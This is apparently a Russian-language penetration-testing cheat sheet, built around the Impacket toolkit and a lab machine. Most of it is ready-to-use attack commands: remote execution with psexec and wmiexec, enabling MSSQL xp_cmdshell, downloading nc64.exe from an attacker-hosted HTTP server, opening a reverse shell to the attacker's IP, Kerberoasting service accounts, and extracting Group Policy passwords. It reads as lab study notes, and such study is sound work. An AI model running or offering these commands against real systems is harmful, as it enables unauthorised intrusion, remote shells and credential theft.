 ## Введение
Impacket представляет собой коллекцию классов Python для работы с сетевыми протоколами. Impacket ориентирован на обеспечение низкоуровневого программного доступа к пакетам, а для некоторых протоколов (например, SMB1-3 и MSRPC) — на саму реализацию протокола. Пакеты могут быть сконструированы с нуля, а также разобраны из необработанных данных, а объектно-ориентированный API упрощает работу с глубокими иерархиями протоколов. Библиотека предоставляет набор инструментов в качестве примеров того, что можно сделать в контексте этой библиотеки.
```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt
```
Теперь мы готовы узнать об использовании инструмента и, в частности, mssqlclient.py скрипта.
## Подключиться к windows
impacket-psexec - `impacket-psexec '{domain}/{username}:{pass}@{IP}'
`
impacket-wmiexec
impacket-smbexec
## SMB
### Передать файл через SMB
```
impacket-smbserver -smb2support public mydir
```
где `mydir` - директория на атакующем компьютере

Команда выше создает на нашем хосте SMB-сервер с поддержкой SMB2, на котором размещена шара public, которую мы маппим с директорией mydir на атакующем хосте.

Для копирования файла или директории на сервере достаточно просто воспользоваться встроенным функционалом операционной системы: \
``` 
copy \\<ATTACKER_IP>\public\{myfile.txt}
```
## mySQL
```
cd impacket/examples/
python3 mssqlclient.py -h
```
Пример подключения к **MSSQL**:
```
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```
где `-windows-auth` - флаг указан для использования проверки подлинности Windows
Для взлома MSSQL полезен ресурс: [MSSQL Injection Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Например благодаря нему можно использовать следующие команды для получения доступа к windows машине:
``` 
EXEC xp_cmdshell 'net user';
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

У себя:
python -m http.server 80
nc -lvnc 443

Снова в MSSQL:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<my python IP>/nc64.exe -outfile nc64.exe"

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe <my nc IP> 443"
```
Пример подключения к машине windows (из соответствующей папки impacket):
```
python3 psexec.py <login>@{TARGET_IP}
```
## TGS / SPN / Remote Management Users
![[Pasted image 20240531151613.png]]
Если мы знаем, что какой-то пользователь в **Active Directory** имеет право на подключение к контроллеру домену при помощи **WinRM**, то мы можем завладеть его учётной записью из-за того, что эта учетная запись подвержена атаке **Kerberoasting**.

``` 
impacket-GetUserSPNs -request -dc-ip {IP} {domain}/{username}:'userpassword' -outputfile kerberoastable.txt
```
![[Pasted image 20240531152547.png]]
Мы получаем зашифрованный **TGS**, а также видим, что учетная запись **dsemenov** действительно подвержена атаке и состоит в группе **Remote Management Users**, что даёт ей право подключаться по **WinRM**. 

Итог: атаки на пользователей windows:
```
impacket-GetUserSPNs {domain}/{username}:{pass} -dc-ip {IP}
```
```
impacket-Get-GPPPassword {domain}/{username}:{pass}@{IP}
```